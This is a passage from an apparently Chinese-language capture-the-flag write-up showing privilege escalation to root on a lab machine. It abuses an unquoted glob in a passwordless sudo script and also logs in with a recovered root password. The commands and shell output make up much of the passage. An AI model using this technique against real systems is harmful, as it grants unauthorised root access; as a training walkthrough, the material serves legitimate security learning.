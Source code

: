 成功切换到 `welcome` 用户。

## **4.3 welcome -> root**

检查 `welcome` 用户的`sudo`权限。

```bash
welcome@Halfhour:/home/wangjiang$ sudo -l
Matching Defaults entries for welcome on Halfhour:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User welcome may run the following commands on Halfhour:
    (ALL) NOPASSWD: /usr/local/bin/del.sh
```

`welcome` 用户可以无密码以root权限执行 `/usr/local/bin/del.sh` 脚本。查看该脚本内容：

```bash
welcome@Halfhour:/home/wangjiang$ ls -al /usr/local/bin/del.sh
-rwxr-xr-x 1 root root 74 Sep 14 05:22 /usr/local/bin/del.sh
welcome@Halfhour:/home/wangjiang$ cat /usr/local/bin/del.sh
#!/bin/bash

PATH=/usr/bin
cd /tmp
cat /root/root.txt | tr -d [A-Za-z0-9]
```

> **漏洞原理分析**
>
> 脚本的意图是读取 `/root/root.txt` 文件，然后通过 `tr -d [A-Za-z0-9]` 命令过滤掉所有的字母和数字，从而隐藏真正的Flag。
>
> 然而，该脚本存在一个严重的安全缺陷：`tr`命令的参数 `[A-Za-z0-9]` **没有被引号包裹**。这是一个典型的**Shell路径名展开漏洞**。
>
> 1.  当Shell执行 `tr` 命令时，它会先解析命令行参数。
> 2.  由于 `[A-Za-z0-9]` 未加引号，Shell会将其视为一个通配符，意为“匹配当前目录下任意一个由单个字母或数字组成的文件名”。
> 3.  脚本中 `cd /tmp` 命令将当前目录切换到了全局可写的 `/tmp` 目录。
> 4.  因此，我们可以在 `/tmp` 目录下创建一个文件名恰好能匹配该通配符的文件，例如 `A`、`B`或`1`。
> 5.  当脚本执行时，Shell在 `/tmp` 目录中找到了文件 `A`，便会用文件名 `A` **替换**掉通配符 `[A-Za-z0-9]`。
> 6.  最终，实际执行的命令就从 `tr -d [A-Za-z0-9]` 变成了 `tr -d A`。
>
> 这样一来，原本要删除所有字母和数字的命令，就变成了**只删除字符‘A’**的命令。由于Flag中不包含大写字母'A'，因此Flag被完整地打印了出来。

根据以上原理，我们构造利用链：

```bash
welcome@Halfhour:/home/wangjiang$ cd /tmp
welcome@Halfhour:/tmp$ touch A
welcome@Halfhour:/tmp$ sudo /usr/local/bin/del.sh
flag{root-4c850c5b3b2756e67a91bad8e046ddac}
```

> **回顾与发现**：在渗透过程中，我们还发现了另一条更直接的提权路径。最初在 `1337` 端口探测中获得的密码 `bobobo` 实际上是 **root用户的密码**。

```bash
welcome@Halfhour:/tmp$ su -
Password: bobobo
root@Halfhour:~# id
uid=0(root) gid=0(root) groups=0(root)
```
